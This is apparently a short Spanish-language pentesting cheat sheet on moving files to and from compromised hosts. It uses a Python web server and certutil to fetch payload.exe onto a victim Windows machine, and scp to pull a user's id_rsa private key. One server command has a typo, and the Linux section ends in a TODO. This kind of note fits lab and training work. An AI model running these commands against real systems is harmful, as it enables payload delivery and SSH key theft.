 # From Linux to Windows

1. Creamos un servidor simple con python en la ruta donde esté el fichero que queremos compartir: `python -m http.serve 80`
2. En la máquina comprometida windows, usamos el siguiente comando para hacer una petición:
		
	![[Pasted image 20250210011041.png]]
`certutil -urlcache -f http://ip/payload.exe payload.exe`

# From Linux to Linux

1. Creamos servidor simple con python.
	`python -m http.serve 80`
2. Hacemos una petición desde la máquina víctima:
	2.1 curl .. TODO



NOTA : Con Python version<3 usar :
python -m SimpleHTTPServer 8000

## Transfer files via SSH
`
`scp <user>@<ip>:<path_to_file> <path where store file>`
Example:
`scp student@10.10.10.1:~/.ssh/id_rsa .` -> Esto descarga en el directorio actual la id_rsa del home del usuario student.
``

	


		
